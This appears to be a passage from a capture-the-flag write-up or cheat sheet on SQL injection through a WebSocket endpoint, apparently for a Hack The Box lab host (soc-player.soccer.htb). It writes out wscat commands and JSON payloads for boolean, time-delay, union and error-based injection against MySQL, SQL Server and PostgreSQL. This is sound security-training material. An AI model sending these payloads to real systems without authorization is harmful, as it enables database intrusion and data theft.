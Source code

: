 ```javascript
// Send test payloads
ws.send(JSON.stringify({"id": "1"}))
ws.send(JSON.stringify({"id": "1'"}))
ws.send(JSON.stringify({"id": "1' OR '1'='1"}))
```

### Using wscat
```bash
# Install wscat
npm install -g wscat

# Connect to WebSocket
wscat -c ws://soc-player.soccer.htb:9091

# Send JSON payloads
> {"id":"1"}
> {"id":"1'"}
> {"id":"1 OR 1=1"}
> {"id":"92130 or 5=1-- -"}
```

---

## SQL Injection Detection

### Basic Detection Payloads
```json
// Test for errors with single quote
{"id": "'"}

// Test for boolean conditions
{"id": "1 AND 1=1"}
{"id": "1 AND 1=2"}

// Test for time delays
{"id": "1 AND SLEEP(5)"}
{"id": "1'; WAITFOR DELAY '0:0:5'--"}

// Test for union-based injection
{"id": "1 UNION SELECT 1,2,3"}
```

### Error-Based Detection
```json
// MySQL error triggers
{"id": "1'"}
{"id": "1\""}
{"id": "1`"}

// SQL Server error triggers
{"id": "1'"}
{"id": "1]"}

// PostgreSQL error triggers
{"id": "1'"}
{"id": "1$"}
```
